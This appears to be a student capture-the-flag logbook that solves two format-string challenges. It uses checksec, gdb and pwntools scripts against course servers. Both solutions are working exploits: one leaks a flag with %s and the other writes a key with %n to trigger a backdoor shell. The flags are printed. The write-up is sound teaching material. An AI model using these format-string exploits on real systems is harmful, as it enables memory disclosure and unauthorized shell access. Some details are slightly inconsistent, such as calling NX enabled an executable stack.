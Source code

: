 # CTF - WEEK 7

## Challenge #1

- We need to execute the command 'checksec program', in order to see the definition and information of the file **program**.

[]!("CTFs/Img/Semana7-Desafio1/1._checksec.png")

We can conclude that:

- There is a _canary_ preventing the change of the return address of functions
  (or at least making it harder)
- The _stack_ has execution permission (NX) - We can execute code that we inject
  (e.g.: shellcode)
- The position on the binary aren't randomized (PIE) - we can get the addresses
  of variables/registers using a debugger.
- There isn't a seperated stack (SafeStack) - _return addresses_ aren't
  protected.

### Qual é a linha do código onde a vulnerabilidade se encontra?

```c
scanf("%32s", &buffer);
(...)
printf(buffer); // Vulnerability
```

### O que é que a vulnerabilidade permite fazer?

The vulnerability allows us to read and write to variables/registers that we
aren't supposed to, thus allowing us the read the **flag** global variable.

### Qual é a funcionalidade que te permite obter a flag?

By using '%s' on `printf`'s format string, we can read the contents of the flag
char array. To do this, we just need to obtain the address of said variable.

### Flag's memory address

```
[11/24/21]seed@VM:~/CTF/6$ gdb program
Reading symbols from program...
(...)
gdb-peda$ b load_flag
Breakpoint 1 at 0x8049256: file main.c, line 8.
gdb-peda$ run
(...)
Breakpoint 1, load_flag () at main.c:8
8	void load_flag(){
gdb-peda$ p &flag
$1 = (char (*)[40]) 0x804c060 <flag>
```

The address of the flag is `0x804c060`

### Exploit

```py
#!/usr/bin/env python3
from pwn import *

LOCAL = False

if LOCAL:
    local = './program'
    p = process(local)
else:
    url = 'ctf-fsi.fe.up.pt'
    port = 4005
    p = remote(url, port)

p.recvuntil(b":")

content = bytearray(0x00 for i in range(32))
val = 0x0804c060
content[0:4] = (val).to_bytes(4, byteorder='little')
content[4:6] = ("%s").encode('latin-1')

p.sendline(content)
p.interactive()
p.recvuntil(b"got:")
p.sendline(b"hi")
p.interactive()
```

`flag{5fc247063bea425edc863667ac9d09bc}`

In this simple exploit, we store the address in the beginning of the array, and
then use '%s' to read from that memory position. We only need 1 '%s', because
`printf`'s pointer starts right on top of the buffer.

## Desafio #2

### checksec

```
[11/24/21]seed@VM:~/CTF/6$ checksec --file=program --extended
  RELRO : Partial RELRO
  STACK CANARY: Canary found
  NX: NX enabled
  PIE: No PIE
  Clang CFI: No Clang CFI found
  SafeStack: No SafeStack found
  RPATH: No RPATH
  RUNPATH	: No RUNPATH
  Symbols: 79 Symbols
  FORTIFY: Yes
  Fortified: 0
  Fortifiable:  1
  FILE: program
```

### Qual é a linha do código onde a vulnerabilidade se encontra?

```c
scanf("%32s", &buffer);
(...)
printf(buffer); // Vulnerability
```

### O que é que a vulnerabilidade permite fazer?

The vulnerability allows us to change the contents of the `key` variable in
order to access the restricted area of the code.

### A flag é carregada para memória? Ou existe alguma funcionalidade que podemos utilizar para ter acesso à mesma?

The flag is not loaded to memory, but it is present in a file on the target
machine. The functionality that we can exploit to gain access to said file is
obtaining the correct key, activating the backdoor on the server. This spawns a
shell that we can use to read the file contents.

### Para desbloqueares essa funcionalidade o que é que tens de fazer?

To unlock this functionality, we abused the `%n` on `printf`. Our input is
passed as the format string of `printf` without any sanitation. We start by
using `gdb` to obtain the address of the `key` global variable. If we write the
correct number of chars using `printf` (0xbeef), calling `%n` on the key's
correct address will write 0xbeef to it, unlocking the backdoor.

Our buffer isn't big enough to write the needed quantity of chars, so we make
use of number padding to print more characters. This makes it so we can't have
the address of `key` at the beginning of the variable because calling `%`
commands advances `printf`'s pointer forward. We write enough to have printed
0xbeef chars, and then advance the pointer forward to the first available
position that is multiple of 4.

### Exploit

```py
#!/usr/bin/env python3
from pwn import *

LOCAL = False

if LOCAL:
    local = './program'
    p = process(local)
else:
    url = '10.227.243.188'
    port = 4005
    p = remote(url, port)

p.recvuntil(b"...")

content = bytearray(0x00 for i in range(32))
password = 0xbeef

# the -24 is explained below
pad_str = "%0" + str(password - 24) + "x"
content[0:len(pad_str)] = (pad_str).encode('latin-1')

x_str = "%x"
x_len = len(x_str)
n = 3
for i in range(len(pad_str), len(pad_str) + x_len * n, x_len):
    content[i:i+x_len] = (x_str).encode('latin-1')

content[14:16] = ("%n").encode('latin-1')
val = 0x0804c034
content[16:20] = (val).to_bytes(4, byteorder='little')

with open('badfile', 'wb') as f:
  f.write(content)

p.sendline(content)
p.recvuntil(b"You gave")
p.interactive()
```

We subtract 24 from the **password** because the '%x's used print some
characters:

- first '%x' - 38343025 - this one is the one that is left-padded with zeros.
- second '%x' - 78393738
- third '%x' - 78257825
- fourth '%x' - 78256e2578254

If we sum the length of the results of the last 3 '%x', we get 24. These numbers
come from the format string we constructed.

### Flag

`flag{1174a93d4e4fa9e0e19f4cba8ee8d8d8}`

![Acquiring flag from challenge 2](./LOGBOOK6_img/cft_2.png)
